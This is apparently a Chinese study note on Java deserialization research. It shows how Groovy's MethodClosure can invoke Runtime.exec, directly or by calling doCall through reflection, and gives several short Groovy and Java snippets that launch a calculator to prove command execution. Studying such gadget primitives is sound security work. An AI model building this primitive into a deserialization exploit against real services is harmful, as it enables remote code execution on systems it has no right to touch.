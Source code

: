 ![image-20230316141057379](images/3.png)

可以看到这个类的构造方法可以接受两个参数，一个是Object类型的owner，一个是String类型的method，并且存在一个受保护的房啊doCall通过反射的方法调用了owner的method

那我们只要能调用到doCall方法即可

在其父类Closure类存在一个公有的call方法，然后可以去反射调用doCall方法

![image-20230316141241201](images/4.png)

Groovy

```
package Unser.Hessians.Groovy

import org.codehaus.groovy.runtime.MethodClosure

class test {
    static void main(String[] args){
        MethodClosure methodClosure = new MethodClosure("open -a Calculator", "execute");
        methodClosure.call();
    }
}
```

Java

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

public class hhh {
    public static void main(String[] args) {
        MethodClosure methodClosure = new MethodClosure("open -a Calculator","execute");
        methodClosure.call();
    }
}
```

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

public class CodeTest {
    public static void main(String[] args) throws Exception{
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(),"exec");
        methodClosure.call("open -a Calculator");
    }
}
```

根据命令执行怎么构造在设置具体的值，也可以直接通过反射调用docall方法

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

import java.lang.reflect.Method;

public class CodeTest {
    public static void main(String[] args) throws Exception{
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(),"exec");
        Method method = methodClosure.getClass().getDeclaredMethod("doCall", Object.class);
        method.setAccessible(true);
        method.invoke(methodClosure,"open -a Calculator");
    }
```